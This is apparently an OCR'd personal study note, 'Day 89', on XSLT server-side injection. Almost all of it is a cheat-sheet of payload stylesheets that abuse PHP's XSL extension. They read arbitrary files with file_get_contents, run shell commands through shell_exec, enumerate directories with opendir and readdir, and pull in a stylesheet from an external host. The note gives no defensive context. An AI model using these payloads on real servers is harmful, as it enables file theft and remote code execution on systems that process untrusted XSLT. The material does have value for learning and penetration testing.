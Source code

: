 Daily Notes : Day 89 
XSLT Server Side Injection 
(Extensible Stylesheet Language Transformations) - Part 2

 1.⁠ ⁠Internal (PHP-function)
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:value-of select="php:function('file_get_contents','/path/to/file')"/>
</xsl:template>
</xsl:stylesheet>

2. Include external XSL
<xsl:include href="http://extenal.web/external.xsl"/>

3. Execute code (php:function)
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://w3.org/1999/XSL/Transform"
xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:value-of select="php:function('shell_exec','sleep 10')" />
</xsl:template>
</xsl:stylesheet>

4. Opendir + readdir
<?xml version="1.0" encoding="utf-8"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://w3.org/1999/XSL/Transform" xmlns:php="http://php.net/xsl" >
<xsl:template match="/">
<xsl:value-of select="php:function('opendir','/path/to/dir')"/>
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
<xsl:value-of select="php:function('readdir')"/> -
</xsl:template></xsl:stylesheet>